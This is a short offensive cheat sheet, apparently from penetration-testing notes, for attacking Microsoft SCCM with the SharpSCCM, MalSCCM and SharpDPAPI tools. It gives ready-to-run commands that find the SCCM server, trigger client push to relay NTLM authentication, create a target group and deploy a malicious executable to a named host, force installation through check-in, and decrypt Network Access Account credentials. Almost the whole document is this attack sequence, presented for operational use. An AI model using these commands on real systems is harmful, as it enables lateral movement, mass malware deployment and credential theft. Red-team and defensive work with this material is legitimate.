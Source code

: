 ### Sources
https://github.com/Mayyhem/SharpSCCM 
https://github.com/PowerShellMafia/PowerSCCM - a bit outdated but still valid
https://github.com/nettitude/MalSCCM 
https://github.com/GhostPack/SharpDPAPI 

### Identify SCCM server on local machine

```
SharpSCCM.exe local siteinfo
```

```
MalSCCM.exe locate 
```

Those commands provide the responsible SCCM Server for the client and the site. Those are prerequisites for any furhter attacks.

### Verify SCCM configuration

```
MalSCCM.exe inspect /all /server:<PrimarySiteFQDN>
```

### Initiate Client Push (for relaying)

```
SharpSCCM.exe <server> <sitecode> invoke client-push -t "<windows_host_netbios_name>@445"
```
Details on relaying setup - https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a 
Additional relaying hints - https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867 

### Deploy malicous application by SCCM - ATTENTION - permissions within SCCM Infrastructure required - potential impact on target infrastructure

Create new group for deployment
```
MalSCCM.exe group /create /groupname:TargetGroup /grouptype:device
```

Add target computer to group
```
MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL
```

Add application
```
MalSCCM.exe app /create /name:demoapp /uncpath:"\\BLORE-SCCM\SCCMContentLib$\localthread.exe"
```

Deploy the application to the target group 
```
MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment
```

Initiate checkin - which will trigger the installation as soon as possible
```
MalSCCM.exe checkin /groupname:TargetGroup
```

https://labs.nettitude.com/blog/introducing-malsccm/ 


### NAA Accounts

In case an NAA Account has been deployed or used it can be decrypted on the local client
```
SharpDPAPI.exe sccm
```

ATTENTION - local admin privileges are required.
https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9
